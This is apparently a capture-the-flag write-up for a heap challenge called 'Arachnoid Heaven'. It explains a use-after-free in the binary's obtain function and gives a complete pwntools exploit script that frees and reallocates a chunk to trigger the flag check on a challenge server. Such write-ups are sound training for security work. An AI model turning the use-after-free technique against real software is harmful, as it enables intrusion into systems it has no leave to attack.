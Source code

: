 # Arachnoid Heaven (Pwn) Writeup
Running the binary, we can quickly conclude that this is a heap challenge.

![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/screenshots/arachnoid_menu.png)

Reading the pseudocode in ida, we come across the **obtain** function:

![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/screenshots/arachnoid_win_func.png)

It checks if the *Code* corresponding to a particular arachnoid is set to 'sp1d3y',
and if so, it prints out the flag.

The user chooses the arachnoid index to obtain, and nothing is stopping us from
selecting a chunk that has been freed.
So there we have it: a Use-After-Free vulnerability.
We can use this to exploit the program.

```
#!/usr/bin/env python3
from pwn import *

def exploit():
  _bin = './arachnoid_heaven'
  elf = ELF(_bin)
  local = False

  if local:
    log.info('** Running exploit LOCALLY **')
    r = elf.process()
  else:
    log.info('** Running exploit against REMOTE server **')
    ip, port = '167.172.58.213', 31168   # CHANGE THIS
    r = remote(ip, port)
  
  r.sendlineafter(b'>', b'1') # craft arachnoid
  r.sendlineafter(b'Name:', b'koulis') # initial spider name

  r.sendlineafter(b'>', b'2') # delete arachnoid
  r.sendlineafter(b'Index:', b'0') # select 1st arachnoid

  r.sendlineafter(b'>', b'1') # craft arachnoid again
  # name it sp1d3y, so arachnoid's Code at index 0 is set to sp1d3y
  r.sendlineafter(b'Name:', b'sp1d3y')

  r.sendlineafter(b'>', b'4') # obtain arachnoid with index 0
  r.sendlineafter(b'Arachnoid:', b'0')

  r.recvline() # junk
  log.success('** PWNED **')
  flag = r.recvline().decode()
  log.success(f'flag : {flag}')


if __name__ == '__main__':
  exploit()
```
